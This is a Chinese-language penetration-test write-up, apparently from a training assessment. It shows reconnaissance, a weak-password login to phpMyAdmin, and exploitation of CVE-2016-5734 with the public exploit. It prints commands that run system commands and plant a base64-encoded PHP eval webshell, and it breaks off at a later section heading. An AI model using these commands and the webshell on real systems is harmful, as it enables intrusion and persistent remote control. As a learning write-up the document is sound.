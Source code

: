 0x00 前言
=======

靶标是商业计划书，但是因为是考核，所以目标主要还是以拿权限为主。正如所见，我的文笔就如技术一样拉胯，所以如果有不足的地方请各位大佬多多包涵，也希望各位大佬多多指正。言归正传，给的入口是4个网段，分别是10.255.200.*、10.255.210.*、10.255.220.*和10.255.230.*

0x01 信息搜集
=========

使用fsan工具快速扫描，发现 10.255.200.1/24段存在大量主机，其他三个网段没扫出来，再使用nmap扫描发现10.255.220.1/24网段存在一台主机，如下图：

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-3176e6e05a0f07340b761baaf21415abd3c210b3.png)

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-f823bc949f66af6868ad3fa9a9b022c356afa030.png)

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-2c16eee1ea4c7b18bd121d130e15d9c06c3d6512.png)

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-0ab4b7923bf50327b901216b25b5afe665163849.png)

接下来开始漏洞搜集和利用

0x02 10.255.200.23 phpmyadmin远程代码执行
===================================

访问首页发现是有PHPmyadmin(忘截图了)，尝试用弱口令root/root成功登录

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-1710d1670366d018c6fd06a5d438a9d1d2b14991.png)

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-fce52c06a36f9410be29e585250b5aa6f9566717.png)

从后台可以看出版本为4.4.15.6，这个版本存在远程代码执行漏洞CVE-2016-5734，既然已经知道账号和密码，就可以执行利用这个漏洞执行命令了  
EXP地址：<https://www.exploit-db.com/exploits/40185>  
执行命令：

```php
python exp.py -u root --pwd="root" http://10.255.200.23:8080 -c "system('whoami');"
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-e6e90b8d20bc0ee30be5a9d39b0ffac5d3efa0e7.png)

写入webshell：

```php
python exp.py -u root --pwd="root" http://10.255.200.23:8080 -c "file\_put\_contents('shell.php',base64\_decode('PD9waHAgZXZhbCgkX1JFUVVFU1RbbWRybWRyXSk7Pz4='));"
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-24f92550a2ab634aaeabf091839fbe2a60e5fa8b.png)

连接webshell:

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-2d44bc6b074cc04eef52d70c93c8d2a310926931.png)

0x03 10.255.220.220 致远OA session泄露任意文件上传
========================================
